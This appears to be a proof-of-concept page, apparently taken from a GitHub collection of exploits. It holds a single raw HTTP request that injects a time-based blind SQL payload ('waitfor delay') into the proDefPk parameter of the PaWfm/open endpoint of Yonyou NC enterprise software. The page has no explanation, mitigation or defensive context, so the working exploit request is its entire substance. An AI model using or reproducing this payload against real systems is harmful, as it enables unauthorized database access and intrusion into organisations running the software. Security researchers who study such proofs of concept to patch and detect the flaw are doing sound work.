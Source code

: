 # yonyou_nc_PaWfm_sqli

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BNC%E6%8E%A5%E5%8F%A3PaWfm%E5%AD%98%E5%9C%A8sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
2024.4.15 @2

```
GET /portal/pt/PaWfm/open?pageId=login&proDefPk=11';waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```
